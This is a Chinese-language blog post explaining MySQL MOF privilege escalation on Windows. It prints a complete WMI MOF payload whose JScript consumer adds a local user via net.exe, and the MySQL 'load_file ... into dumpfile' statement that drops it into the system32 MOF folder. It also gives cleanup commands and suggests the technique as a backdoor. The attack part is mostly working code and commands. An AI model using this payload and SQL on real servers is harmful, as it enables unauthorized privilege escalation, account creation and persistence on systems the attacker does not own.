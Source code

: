```yaml
---
layout: post
title: "Mysql mof 提权小结"
subtitle: "Mysql mof 提权小结"
date: 2019-08-26
author: ppbibo
category: 提权
finished: true
---
```


[TOC]

## 0x1 前言

Windows管理规范(WMI)提供了如下三种方法编译WMI存储库的托管对象格式（MOF）文件：

1. 将MOF文件执行为命令行参数及`Mofcomp.exe`文件
2. 使用`IMofCompiler`借口和`$CompileFile`方法
3. 拖放到`%SystemRoot%\System32\Wbem\MOF`文件夹下的MOF文件中

**使用MOF提权的前提是当前root账户可以复制文件到`%SystemRoot%\System32\Wbem\MOF`目录下。**



## 0x2 利用技巧

新建文件 `nullevt.mof`

```bash
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
 {
 EventNamespace = "Root\\Cimv2";
 Name = "filtP2";
 Query = "Select * From __InstanceModificationEvent "
 "Where TargetInstance Isa \"Win32_LocalTime\" "
 "And TargetInstance.Second = 5";
 QueryLanguage = "WQL";
 };

instance of ActiveScriptEventConsumer as $Consumer
 {
 Name = "consPCSV2";
 ScriptingEngine = "JScript";
 ScriptText =
 "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user demo xxxxx /add\")";
 };

instance of __FilterToConsumerBinding
 {
 Consumer = $Consumer;
 Filter = $EventFilter;
 };
```

我们将 `nullevt.mof` 脚本上传到一个可读可写的目录下，然后执行Mysql 语句，导出到 `%SystemRoot%\System32\Wbem\MOF` 目录下，利用的就是该目录下每分钟会在特定的时间去执行一次的特性，来执行我们的 DOS 命令。

![mof_1](/static/img/mof_1.png)



执行SQL语句 **RT**：

```mysql
select load_file("C:\\phpStudy\\PHPTutorial\\WWW\\nullevt.mof") into dumpfile 'c:\\windows\\system32\\wbem\\mof\\nullevt.mof'
```

![mof2](/static/img/mof_2.png)

导入后，系统会自动运行该文件。

运行成功后查看已经成功添加了 `demo` 用户

![udf_3](/static/img/udf_3.png)



## 0x3 总结

1. 操作系统版本不宜太高，win7 和 2008 测试失败，2003测试成功（因为需要访问到system32中目录）或说mysql启动身份具有权限去访问和写入`C:/windows/system32/mof`目录。

2. **原理：**

   放置在`C:/windows/system32/mof`目录下的`nullevt.mof`文件每个五秒钟会被自动执行并且消失，如果后续没有创建新的该文件，那么每五秒会循环执行之前的nullevt.mof中内容，那么只需要将恶意代码写入该文件中即可。

3. 解决循环创建用户

   `net stop winmgmt`

   删除文件夹下内容 `c:/windows/system32/wbem/repository`

   `net start winmgmt`

   个人感觉可以当作一个后门来使用，不过我在测试的时候调用 net.exe 的时候杀毒软件会拦截。



------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***